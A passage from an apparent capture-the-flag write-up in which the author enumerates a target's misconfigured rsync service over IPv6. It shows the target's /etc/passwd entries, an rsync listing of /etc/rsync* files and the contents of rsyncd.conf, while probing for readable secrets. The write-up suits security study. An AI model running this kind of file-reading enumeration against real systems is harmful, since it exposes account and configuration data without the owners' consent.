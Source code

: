 ```
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
roy:x:1000:1000:roy,,,:/home/roy:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/sbin/nologin
postgres:x:106:113:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

```

roy is the most interesting account.

I’ll also look at the rsync related files:

```

root@kali# rsync --list-only -a rsync://[dead:beef::0250:56ff:fe88:e5fa]:8730/etc/rsync*                                 
-rw-r--r--          2,929 2019/08/31 15:56:06 rsyncd.conf
-rw-r--r--            558 2019/07/27 06:39:04 rsyncd.motd
-r--------             13 2019/07/27 06:43:25 rsyncd.secrets

```

I don’t have access to the `rsyncd.secrets` file, but I can pull the other two. The motd file is just the message I’ve seen over and over. The `.conf` has lots of good stuff:

```

reverse lookup = no
# GLOBAL OPTIONS

# Change port so that we won't be in shodan
port = 8730 
use chroot = yes
lock file = /var/lock/rsyncd
motd file = /etc/rsyncd.motd
strict modes = yes
ignore errors = no
ignore nonreadable = yes
transfer logging = no
log format = %t: host %h (%a) %o %f (%l bytes). Total %b bytes.
dont compress = *.gz *.tgz *.zip *.z *.rpm *.deb *.iso *.bz2 *.tbz
read only = yes
uid = backup
gid = backup

# MODULE OPTIONS

# Allow backup server to backup /bin
[bin]
        comment = Backup access to /bin
        path = /bin
        # Allow access from backup server only.
        hosts allow = 104.24.0.54

# Allow backup server to backup /boot
[boot]
        comment = Backup access to /boot
        path = /boot
        # Allow access from backup server only.
        hosts allow = 104.24.0.54

# *** WORK IN PROGRESS *** 
# Allow access to /etc to sync configuration files throughout the complete
# cloud server farm. IP addresses from https://ip-ranges.amazonaws.com/ip-ranges.json
#
```
